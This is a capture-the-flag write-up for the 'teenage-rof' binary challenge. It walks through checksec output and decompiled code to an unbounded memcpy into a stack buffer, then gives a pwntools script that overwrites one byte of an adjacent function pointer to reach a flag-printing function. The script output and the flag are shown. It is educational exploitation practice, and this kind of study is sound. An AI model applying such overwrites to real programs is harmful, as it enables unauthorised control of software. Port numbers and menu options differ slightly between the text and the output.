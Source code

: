 # teenage-rof

![Proof](proof.png)

**Author:** `thek0der`  
**Solves:** 36

**writeup made by** `lifip27`
---

## Description

Wait, they said this language doesn't work like that...

We get `teenage-rof`

## Analyzing

I ran `checksec` on the binary:
```bash
$ checksec teenage-rof
[*] '/home/lifip/teenage-rof'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

**Importants!**   
No stack canary → stack overwrites are possible without immediate detection.   
NX enabled → attacker must reuse code (no code injection).   
PIE enabled → addresses are randomized; full-pointer overwrite normally needs a leak.

Looking inside the main function we can get to this part:
```c
LABEL_82:
    sub_17A00();
  }
  sub_3F2F0();
  __writefsqword(0xFFFFFFF8, (unsigned __int64)&qword_50068);
  sub_6949(sub_7776);
  if ( dword_50064 != 3 )
  {
    LOBYTE(v26[0]) = 1;
    fds.sa_handler = (__sighandler_t)v26;
    sub_6280(&dword_50064, 0LL, &fds, &unk_4F358, &off_4EFD0);
  }
```

`Main` hands control to `sub_7776` which is THE interactive menu!

![1](1.png)

Relevance from `sub_7776`:
```c
sub_C1C5(&v14, v2, 1LL);
v21 = v15;
if ( (_DWORD)v14 != 1 )
{
  src = v16;
  ...
  v3 = sub_409B0(&qword_50080, src, v2);
  v5 = v4;   // or v5 = v9 in the other branch — either way v5 gets the out-value from sub_409B0
  ...
  memcpy(dest, src, v5);    // copy exactly v5 bytes from src into stack buffer dest
  ...
  sub_C23E(v21, v6);
}
```

**What this shows:**   

`src = v16` — the caller stores a pointer (`v16`) into its local variable `src`.

It calls `sub_409B0(&qword_50080, src, v2)` — passing `src` as the `a2` argument to the callee, and `v2` as the requested size `a3`.

After the call, the caller reads the out-slot (the callee wrote `* (a1+2)`) into `v5` (`v5 = v4` or `v5 = v9` depending on branch).

Then the caller does `memcpy(dest, src, v5)` — copying `v5` bytes from the exact buffer (`src`) that was filled by `sub_409B0` into the stack buffer `dest`.

Now inside `sub_409B0`:
```c
__int64 __fastcall sub_409B0(char **a1, char *a2, unsigned __int64 a3)
{
    unsigned __int64 v11;

    // read from stdin into a local buffer v8 (-> later copied to a2)
    v11 = read(0, v8, v10);          // read(0, buffer, requested)
    if ( v11 == -1LL )
    {
        // error handling...
    }
    else
    {
        v7 = v11;                    // v7 := number of bytes read
    }

    ...
    // copy the bytes read into the caller's buffer a2 
    if ( v17 == 1 )
    {
        *a2 = *v18;                  // single-byte fast path
    }
    else
    {
        memcpy(a2, v20, v17);        // copy v17 bytes INTO a2 (the caller's buffer)
    }

    // write the consumed-count back into caller-visible slot a1[2] 
    *v4 = v22;                       // where v4 == (unsigned __int64 *)(a1 + 2)
    return 0LL;
}
```
**Simplified**:   

`sub_409B0` executes `read(0, ...)` and `memcpy(a2, ..., to_copy)` and writes `to_copy` into `a1[2]`;      

`sub_7776` calls `sub_409B0(&qword_50080, src, requested)` and then performs `memcpy(dest, src, out_bytes)` where `out_bytes` is the exact value written by `sub_409B0`. Therefore the program copies exactly the number of bytes we supplied on stdin into dest with NO bounds checking.

### Next

Know that we know how the binary uses our input let's find the vulnerability!

Inside `sub_7776` we can see this:
```c
  _BYTE dest[32]; // [rsp+A0h] [rbp-68h] BYREF
  void (*v26)(void); // [rsp+C0h] [rbp-48h]
  __int64 (__fastcall *v27)(); // [rsp+C8h] [rbp-40h]
  __int64 (__fastcall *v28)(); // [rsp+D0h] [rbp-38h]
```

Stack layout (function pointer sits right after a `32-byte` buffer)

```c
          v3 = sub_409B0(&qword_50080, src, v2);
          v5 = v4;
          ...
          v3 = sub_409B0(&qword_50080, src, v2);
          v5 = v9;
          ...
          v6 = src;
          memcpy(dest, src, v5);
```

The input read and UNBOUNDED copy into `dest`

```c
      case 2LL:
        v26();
        v0 = 0LL;
        continue;
```
Later, the overwritten function pointer is invoked. Control-flow hijack!

We also found a function named `sub_6A65` that prepares the flag.txt for us!

![2](2.png)

We need to find a way to call this function so we can get the flag!

## Solve

One more thing is that we don’t need a leak. The local function pointer called by the menu is initialized to `sub_6A31`. So the steps into getting flag are:   

1. write **32** bytes of padding to fill `dest`
2. then write **one byte** `0x65` to flip the pointer from `..6A31` to `..6A65`
3. then trigger the call site via the **run** option.

No GOT/ROP, no base leak  
just a **1-byte overwrite**

The solve.py
```python
from pwn import *
p = remote('ctf.ac.upt.ro', 9437)  
p.sendline(b'1')                   # write
p.sendline(b'33')                  # length
p.send(b'A'*32 + b'\x65')          # 32 pad + 1-byte LSB flip
p.sendline(b'3')                   # run -> calls win
print(p.recvall(timeout=4).decode('latin-1', 'ignore'))
p.close()
```
Running the script to get the flag!

```bash
$ python3 teenage.py
[+] Opening connection to ctf.ac.upt.ro on port 9834: Done
[+] Receiving all data: Done (165B)
[*] Closed connection to ctf.ac.upt.ro port 9834
1 write
2 show
3 run
4 exit
n bytes:
ok
1 write
2 show
3 run
4 exit
CTF{ed30505bbe7a651829d9d747f7af11677c7c3ff8f4e871a5269920c961765747}1 write
2 show
3 run
4 exit
```

### Flag: CTF{ed30505bbe7a651829d9d747f7af11677c7c3ff8f4e871a5269920c961765747}